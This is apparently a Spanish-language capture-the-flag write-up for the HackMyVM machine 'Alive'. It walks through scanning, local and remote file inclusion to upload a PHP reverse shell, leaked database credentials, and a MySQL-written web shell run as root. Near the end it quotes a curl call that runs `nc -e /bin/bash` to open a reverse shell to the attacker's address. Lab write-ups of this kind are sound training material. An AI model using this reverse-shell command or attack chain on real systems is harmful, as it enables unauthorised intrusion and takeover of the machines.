 ```yaml
---
layout: post
title: "Write Up Alive. "
subtitle: "eJPTv2 Track "
category: Blog
tags: [Hard,Jounin,Linux,HMVM,SSH,GTFOBins,WireShark,Reconnaissance,Leaked-Information,Database,MySQL,Protocols,eJPTv2]
image:
  path: /assets/img/alive/alive.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### Nmap


```bash
nmap --open -p- -Pn -n -T4 -vvv -n 198.168.100.52 -oN allports
```

![list](/assets/img/alive/1.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -sVC -Pn -n -p22,80 198.168.100.52 -oN target
```

![list](/assets/img/alive/2.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Expltation


### HTTP TCP-80


Como siempre mno podemos hacer nada con el puerto 22, asi que vamos a intentar hacer algo con el puerto 80, ademas , si vemos las tecnologias vemos que hay un subdomino que vamos agregar al **/etc/hosts**, demommetola pagina que es vulnerablea LFI, por lo que vamos a porbar alhgunas rutas del  sistema  para ver informacion que podamos usar.


![list](/assets/img/alive/3.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Dominio.


![list](/assets/img/alive/4.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
LFI


![list](/assets/img/alive/5.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Vemos al usuario alexandra.


![list](/assets/img/alive/6.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
El código PHP permite a los usuarios ingresar una URL a través de un formulario y luego ejecuta el comando curl en el servidor para obtener y mostrar el contenido de la URL especificada. 


Volvemos a  fuzzera ya que no podemos hacer nada mas, yn encontramosun directorio **/tmp/**.


![list](/assets/img/alive/7.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Directorio **/tmp/**.


![list](/assets/img/alive/8.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Con lo que vimos antes el codiogo hace una peticion a  una web y tambien hay algunos caracteres  prohibidos pero el > no entonces que podemos hacer, lo primero es levantar un servidor web y provocar un RFI para subir una php-reverse-shell.php al  servidor y moverlo a **/var/www/hatml/tmp/** para ejecurarlo y obtener una shell como www-data.


![list](/assets/img/alive/10.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos  shell como  www-data.


***

## Escalation Privileges


Primero, ejecutamos el comando **id** en Linux para obtener información sobre la identificación del usuario actual y los grupos a los que pertenece, ademas ejecutaremos **uname -a** y **lsb_release -a** para obtener información del sistema, verificaremossi otro usurio tiene permisos sudores con **sudo -l**, además, buscamos binarios con permisos **SUID** y tareas **Cron** en busca de posibles puntos de entrada. 


Si no encontramos resultados significativos con las acciones anteriores, procedemos a subir los binarios **linpeas** y **pspy** .etc, al sistema. Estos binarios nos ayudarán a realizar un análisis de reconocimiento más exhaustivo, identificando posibles vulnerabilidades o actividades sospechosas en el sistema.


También realizamos un análisis manual del sistema, buscando configuraciones inseguras, archivos sensibles o cualquier otra anomalía que pueda indicar una posible vulnerabilidad o actividad maliciosa.


Como es costumbre cuando somos www-data y debemos Husmear muy bie laruta porque en los archivos de configuracion o database hay la mayoria de veces datos importantes leakados.


![list](/assets/img/alive/11.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Credenciales encontradas en el archivo **index.php** que nos muestra las credenciales **admin:HeLL0alI4ns**, parecen ser de la  base de datos asi que vamos a ver que puertos estan abiertos, estan arriba, 3306 de mysql y 8000 http asi que vamos a husmear primero el http  y luego el otro.


![list](/assets/img/alive/15.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/alive/12.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/alive/13.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Estaba buscando el archivo ese para ver la ruta, porque no es la que estoy y busque muy en general luego busque de otra forma un poco mas personalizada `sudo grep -rl "Only local zipped backup." /`, encontre la  ruta para lo que esta en el  puerto 8000 es **/op/index.html**.
 

Hemos encontrado un servidor web iniciado por el usuario root en la ruta **/opt/**,ademas, hemos identificado otro proceso, el demonio de MySQL, que fue iniciado por root por lo que nos vamos a conectar a la base de datos.


![list](/assets/img/alive/16.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Esto lo  hacemos porque el que esta ejecutando HTTP ES **root** por ende si la reverse shell esta en laruta tambien se ejecutar como root pero nosotros no tenemos permisos porque somo www-data pero  con las credenciales de admin de la base de  datos podemos injectar el codigo y depositarloen la ruta que tiene permisos **root**.


![list](/assets/img/alive/19.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Al ejecutar `curl http://127.0.0.1:8000/shell.php?cmd=nc+-e+/bin/bash+192.168.100.34+443`, nos mandamos una reverse-shell como root nos ponemos a la escucha y ya podemos buscar la flag de root en el escritorio.


***

```bash
🎉 Felicitaciones ya has comprometido Alive de Hack My VM 🎉
```
{:.centered}

***

Back to [Certification eJPTv2 ](2023-06-02-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
